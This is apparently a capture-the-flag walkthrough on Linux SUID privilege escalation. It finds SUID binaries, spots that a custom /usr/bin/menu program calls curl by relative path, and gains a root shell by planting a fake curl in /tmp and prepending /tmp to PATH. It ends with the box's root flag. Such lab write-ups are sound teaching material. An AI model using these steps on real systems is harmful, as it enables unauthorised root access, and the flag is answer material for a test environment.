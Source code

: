 ## SUID Privilege Escalation

```
find / -perm -u=s -type f 2>/dev/null
```

```
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6
```

* /usr/bin/menu stands out

`strings /usr/bin/menu`

```
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
curl -I localhost
uname -r
ifconfig
 Invalid choice
;*3$"
```

* curl is being used without the absolute path

```
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu

root.txt - 177b3cd8562289f37382721c28381f02
```
